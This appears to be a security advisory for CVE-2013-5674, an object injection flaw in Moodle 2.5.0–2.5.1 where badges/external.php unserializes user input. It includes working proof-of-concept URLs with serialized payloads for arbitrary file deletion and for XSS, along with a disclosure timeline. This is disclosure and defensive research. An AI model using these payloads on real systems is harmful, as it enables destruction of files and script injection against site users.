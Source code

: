 Moodle CMS is prone to an object injection vulnerability, which can be exploited to execute internal PHP code passing malicious user-supplied input to an internal `unserialize()` PHP function.

The attacker can inject ad-hoc serialized object into the application scope, reusing internal PHP code snippets maliciously. In this scenario the attacker can delete arbitrary files and conduct XSS attacks.

The vulnerability affects Moodle CMS versions 2.5.0 and 2.5.1

## Vulnerability 

The affected file `badges/external.php` unserializes the user input in the line 35

~~~ { php }
$json = required_param('badge', PARAM_RAW);
$badge = new external_badge(unserialize($json));
~~~

## POC

To exploit this kind of vulnerability is necessary to reuse some object method called during the life time of the object instance. As explained in the PHP [manual](http://php.net/manual/en/language.oop5.magic.php) magic methods documentation, two methods are necessarly called:

  - `__wakeup()`: This method is called at the wake up of the sleeping unserialized object.
  - `__destroy()`: As in other object-oriented languages, the destructor method is called at the end of the instance life.

Moreover two other `__get(string $name)` methods are called during this particular object instance lifetime, in the form of `instance->$name`.

  - `__get("assertion")`: Called in badges/renderer.php:377 `$issued->assertion` 
  - `__get("imageUrl")`: Called in badges/renderer.php:389 `array('src' => $issued->imageUrl)`

### FILE DELETE

The method `csv_export_writer::__destruct()` in lib/csvlib.class.php:538 contains

~~~ { php }
    public function __destruct() {
        fclose($this->fp);
        unlink($this->path);
    }
~~~

This can be exploited to delete arbitrary files passing the serialized object. Here the PoC to delete `/path/of/the/file/to/delete`:

~~~ { html }
http://localhost/badges/external.php?badge=O:17:"csv_export_writer":1:{s:4:"path";s:27:"/path/of/the/file/to/delete";}
~~~

### XSS

The vulnerable script `badges/external.php` prints in line 43 the HTML code rendered using the injected unserialized `$badge` object 

~~~ { php }
echo $output->render($badge);
~~~

The rendered HTML page built in the `core_badges_renderer::render_external_badge()` reflects the two object variable `assertion` and `imageurl` that can be used as XSS vector. Here the PoC of the XSS:

~~~ {html}
http://localhost/badges/external.php?badge=O:8:"stdClass":2:{s:8:"imageUrl";s:0:"";s:9:"assertion";O:8:"stdClass":1:{s:5:"badge";O:8:"stdClass":1:{s:6:"issuer";O:8:"stdClass":1:{s:4:"name";s:30:"<script>alert(1);</script><!--";}}}}
~~~

## CVE REFERENCE

The Common Vulnerabilities and Exposures project (cve.mitre.org) has assigned the name [CVE-2013-5674](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2013-5674) to the vulnerability

## DISCLOSURE

29/Jul/2013: Vendor alerted with MDL-40924 ticket
02/Sep/2013: Released fix commit 2d3c0faef by Yuliya Bozhko
07/Sep/2013: Moodle release 2.5.2
16/Sep/2013: Public disclosure

